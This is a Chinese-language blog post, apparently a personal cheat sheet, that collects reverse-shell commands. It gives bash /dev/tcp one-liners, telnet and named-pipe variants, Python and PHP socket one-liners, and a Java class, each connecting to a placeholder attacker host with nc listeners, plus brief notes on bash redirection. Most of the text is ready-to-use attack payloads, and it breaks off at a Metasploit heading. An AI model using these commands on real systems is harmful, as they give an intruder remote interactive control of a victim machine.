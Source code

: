 ```yaml
---
layout: post
title: 反弹WebShell
subtitle: 反弹WebShell
date: 2024‎-‎11‎-‎03 ‏‎20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
---
```

### bash

```shell
# 攻击机
nc -lvvp port
# 目标机
bash -i >& /dev/tcp/x.x.x.x/port 0>&1
```

```shell
# 方法2
exec 0&0 2>&0

0<&196;exec 196<>/dev/tcp/x.x.x.x/4444; sh <&196 >&196 2>&196

/bin/bash  -i > /dev/tcp/x.x.x.x/8080 0<&1 2>&1

# 方法3
exec 5<>/dev/tcp/x.x.x.x/4444;cat <&5 | while read line; do $line 2>&5 >&5; done
```

* **bash -i**  打开一个交互的bash
* **>&**  将标准错误输出重定向到标准输出
* **/dev/tcp/x.x.x.x/port**  意为调用socket,建立socket连接,其中x.x.x.x为要反弹到的主机ip，port为端口
* **0>&1**  标准输入重定向到标准输出，实现你与反弹出来的shell的交互

**/dev/tcp/** 是Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。同理，Linux中还存在/dev/udp/。

|                |                    |
| -------------- | ------------------ |
| 标准输入 (stdin)   | 代码为 0 ，使用 < 或 <<   |
| 标准输出 (stdout)  | 代码为 1 ，使用 > 或 >>   |
| 标准错误输出(stderr) | 代码为 2 ，使用 2> 或 2>> |

### Telnet

```shell
# 攻击机打开两个终端开启两个端口，分别用来输入和输出
nc -lvvp 4444
nc -lvvp 5555
# 目标主机
telnet x.x.x.x 4444 | /bin/bash | telnet x.x.x.x 5555
```

```shell
# 方法2
rm -f /tmp/p; mknod /tmp/p p && telnet x.x.x.x 4444 0/tmp/p
```
### Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
### PHP

```php
php -r '$sock=fsockopen("x.x.x.x",5555);exec("/bin/bash -i <&3 >&3 2>&3");'
```
### JAVA

```java
public class Revs {
    /**
    * @param args
    * @throws Exception 
    */
    public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/x.x.x.x/5555;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```
### 使用msf工具